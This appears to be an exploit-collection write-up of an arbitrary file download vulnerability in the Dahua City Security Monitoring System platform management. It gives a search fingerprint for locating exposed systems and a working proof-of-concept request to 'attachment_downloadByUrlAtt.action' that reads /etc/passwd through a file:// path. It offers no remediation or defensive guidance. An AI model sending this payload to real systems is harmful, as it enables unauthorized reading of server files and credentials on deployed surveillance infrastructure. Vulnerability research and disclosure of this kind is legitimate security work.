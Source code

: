 # Dahua Urban Security Monitoring System Platform Management attachment_downloadByUrlAtt.action Any file download vulnerability

## Vulnerability Description

There is a vulnerability to download any file on the server through the platform management of Dahua City Security Monitoring System.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Dahua City Security Monitoring System Platform Management</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"attachment_downloadByUrlAtt.action"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647528195700-90c15ce4-496f-4976-8538-8b39e1f248af.png)

Verify POC

```javascript
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647528297462-f92141b3-fa43-4cce-9717-13ba3b144dc7.png)